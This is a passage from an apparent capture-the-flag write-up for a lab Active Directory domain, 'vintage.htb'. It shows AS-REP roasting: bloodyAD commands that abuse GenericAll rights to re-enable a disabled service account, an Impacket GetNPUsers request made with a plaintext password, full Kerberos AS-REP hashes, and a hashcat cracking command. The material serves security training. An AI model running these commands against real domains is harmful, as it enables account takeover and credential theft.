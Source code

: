 ```console
$krb5asrep$23$svc_ark@VINTAGE.HTB:9bcb4e2a1c6d1d742b1216a337217c76$401ee49a4ba4684ffe2a44fa2f3bf1c2a990be777ca62b84e3bb24d7a682480dcf8b58163c3d7d1a49b9c17851e858f5a3a5b668f3f338702bdd214b4ef42c383f487b3d53ac84e7921af216919ac1272aa1a6aa2a29521a9909dc77c863cb12c3b4795bc681b498fd503ff05311240323229aaee57fb290577d1fa16eb1f20b98a7532ceabe33ae8e305a12ba4c26a9dee9398a99615bb4fef58295b05167ee4233220a828a051796b65514643e66cf962792a5de6c960af20f604a036d8e8babc40db0ff91f60d530efe17b2ba5b19ada9f0db426fef63e28c2684bb949cb1d6ed98c572c7b1b80569
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
```

We only get two hashes and see that the `svc_sql` account responds with a `KDC_ERR_CLIENT_REVOKED` error, meaning that this account is not activated. We can verify if the account is indeed disabled.

```console
$ bloodyAD -k ccache=GMSA01$.ccache --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 get search --filter "(objectClass=user)" --attr userAccountControl | grep svc_sql -A 1

distinguishedName: CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb
userAccountControl: ACCOUNTDISABLE; NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD; DONT_REQ_PREAUTH
```

### Restore Disabled Account

With our `GenericAll` rights, we can enable the account in order to get the hash.

```console
$ bloodyAD -k ccache=GMSA01$.ccache --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 remove uac svc_sql -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from svc_sql's userAccountControl

$ GetNPUsers.py vintage.htb/p.rosa -usersfile svc_accounts.txt -request -outputfile services.hashes
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

Password: Rosaisbest123
$krb5asrep$23$svc_sql@VINTAGE.HTB:dc8a1a43c87f7cc2ecbb5257297c5e94$3cc8690b1ed9d58499e1ea15cd221df403ca8e996958bf07dde2c4b908b49e88ccccff7499e425fc18adb571ac27ade37e7689b24c17098b0fad4c1f06d58cc716a163d8c6fd5239b5d038664b3678c15e0618f764773d7a015175276189704ffa0705f7d9e2f1fcb9e9bdc4a150fcb177fab3362fcd056d5bd1f4dfd746c9d5f86edaa80b9d00e5642c1503ee75d0f92675416005c65804cec1d5019eacaf3f729f64b65fe78a24bce11ce15a29ff1d59c266893f9579d72f56de8db8c161696ea4a6b752e2c78ed019a683c3a5bacaa4188a35a122c74d1d953b61fbf89c82b51f020b16c5b58f1075
$krb5asrep$23$svc_ldap@VINTAGE.HTB:e6c79b7a07a29f9ac1b01304a6284b5c$909ef9d4c18e333496894114a6352be17a069b22150553135ad947f8a53e62b4d8d821e1445c2732d6d7cba63f3b5b7ea41af01fc2ec90e6629aa495ac928e10b728e6ed38aab07c619a4ba0138ee51b1bfbf81ebaa5c9714666a15cccb2d9395875e17aa5dc0e989d35e4bbe7aa715eb322bc0f547a8fddfe8fa67f3f1e067b8c0d7b7f61bc5d61c3d9c394f4f56becaf11c45e8e055a4f7faca72951e53b5bb3fd64cb59e7ad7bad8b2381a45c7d6c6202c6990ac6dcd751698ee0537eeb433828980c2c7ed8323e2354992f311d0cedecb6810c10024b6d28190c64ee29b1676c3cd10f2dc4f98af6
$krb5asrep$23$svc_ark@VINTAGE.HTB:b49fd1927a448d0d5e4f881ddce0bff4$c4d6bc491d09cb254a9f77c8e2f5ddc3a3b026e7de873b673b33e74c1cc7c7abbb39003f42c19cd3aa3b89a4184c696c3efc4386a37c832a59005da2eab5fcccef22de555e6407f1389b576503757debacad0bebfeac149ee90628e05a8ce410bac307565474156df4ca521e7d0d29a8e5d4f1e0cf4ade79a36597ecffab8c586b4a9e4a10831d595bcd61fb5068efe832ce5b836bd46ba56f495ea5150e73aa117212ab218de0c2f17083b02c48d627d67ad8a1e537eeba72dcf7f984fe762f86d7ca702f6d22e3caf27cfdab1f7498c28e3664311f482129eb6bf2a14a8c94ba185eeb5529b178dadf

$ hashcat services.hashes -m 18200 $ROCKYOU
```
